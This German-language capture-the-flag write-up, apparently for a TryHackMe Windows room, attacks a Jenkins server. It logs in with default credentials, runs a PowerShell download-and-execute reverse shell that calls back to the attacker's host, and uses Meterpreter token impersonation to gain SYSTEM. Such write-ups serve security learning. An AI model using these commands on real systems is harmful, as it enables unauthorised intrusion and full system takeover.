 Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).


# Ziel: 10.10.2.172

# Initial Access
## Scanning 

Nmap 
80/tcp   open  http           Microsoft IIS httpd 7.5
3389/tcp open   ms-wbt-server?
8080/tcp open  http           Jetty 9.4.z-SNAPSHOT


## Exploiting 
Login Page für Jenkins unter 10.10.38.83:8080 gefunden

Test von Default user&Passwort 
admin:admin
->  Erfolgreicher login

von THM Kommentar 

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: _powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.242.69:8000/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.242.69 -Port 4444
```

->  Rev Shell anbieten auf eigenen http server
->  Feature finden um die Shell auf dem ziel zu laden
-> Rev Shell mit NC fangen

Shell auf http Server anbieten: 

```
python3 -m http.server
```

-> webserver auf localip:8000

http://10.10.242.69:8000/Invoke-PowershellTcp.ps1

-> Upload Möglichkeit via Project Configure gefunden ->  Auch Ausführung möglich
->  Rev Shell erhalten
-> User alfred\bruce


# Priv Escalation

Hier wird vorgegeben das wir token impersination nutzen werden

Zuerst gilt  es hier zu schauen welche Berechtigungen wir haben via: 

```
PS C:\Program Files (x86)\Jenkins\workspace\project> whoami /priv


PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

```

Hier intressant zu sehen sind die beiden 'SeDebugPrivilege, SeImpersonatePrivilege)'.  Durch SeImpersonatePrivilige können wir unsere rechte potenziell erweitern. Jetzt gilt es zu schauen welche User Tokens für uns zur Verfügung stehen. (der Einfachkeit halber hanbe ich auf eine Merterpreter shell in Metasploit gewechselt.)

```
meterpreter > list_tokens -g


[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

```

Hier sehen wir das wir u.A. den "BUILTIN\Administrators" token haben. diesen nutzen wir jetzt um Admin rechte zu erhalten. Zuerst laden wir hier dafür das Meterpreter Modul "incognito"

```
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM


meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

wie wir nach der Kontroller mit "getuid" sehen sind wir erfolgreich von den Rechten aufggestiegen.